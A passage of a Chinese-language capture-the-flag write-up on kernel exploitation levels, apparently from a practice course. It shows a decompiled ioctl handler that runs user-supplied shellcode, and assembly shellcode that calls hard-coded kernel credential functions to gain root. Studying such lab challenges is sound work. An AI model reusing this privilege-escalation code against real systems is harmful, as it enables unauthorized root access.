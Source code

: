 然后使用 sftp 将可执行文件传入到远程服务器里执行即可拿到提权后的 shell。

tips：可以在 practice 模式里使用 sudo 查看 kallsyms 里的函数地址（没开 kaslr

## level 6.1

用 6.0 的 exp 直接可以打通。

## level 7.0

```c
__int64 __fastcall device_ioctl(file *file, unsigned int cmd, unsigned __int64 arg)
{
  __int64 result; // rax
  size_t shellcode_length; // [rsp+0h] [rbp-28h] BYREF
  void (*shellcode_execute_addr[4])(void); // [rsp+8h] [rbp-20h] BYREF

  shellcode_execute_addr[1] = (void (*)(void))__readgsqword(0x28u);
  printk(&unk_2A0);
  result = -1LL;
  if ( cmd == 1337 )
  {
    copy_from_user(&shellcode_length, arg, 8LL);
    copy_from_user(shellcode_execute_addr, arg + 4104, 8LL);
    result = -2LL;
    if ( shellcode_length <= 4096 )
    {
      copy_from_user(shellcode, arg + 8, shellcode_length);
      shellcode_execute_addr[0]();
      return 0LL;
    }
  }
  return result;
}
```

相当于要写一个 shellcode，其中：

- shellcode[0:7] 是 shellcode_len
- shellcode[8:4096+8] 是 shellcode
- shellcode[4096+8:] 是 shellcode_addr

这里 shellcode_addr 虽然在 ida 里查看到是在模块的 bss 段上，但调试得到地址其实是 0xffffc90000085000。

提权部分依然使用 6.0 的 shellcode，但是注意提权后要 getshell（因为这个 shellcode 不会自动返回），所以最简单的办法是提权后直接 ret。

```asm
    .intel_syntax noprefix
    .text
    .globl  _start
    .type   _start, @function

_start:
    push 0xffffffff81089660
    pop rbx
    xor rdi, rdi
    call rbx
    push rax
    pop rdi
    push 0xffffffff81089310
    pop rbx
    call rbx
    ret
```
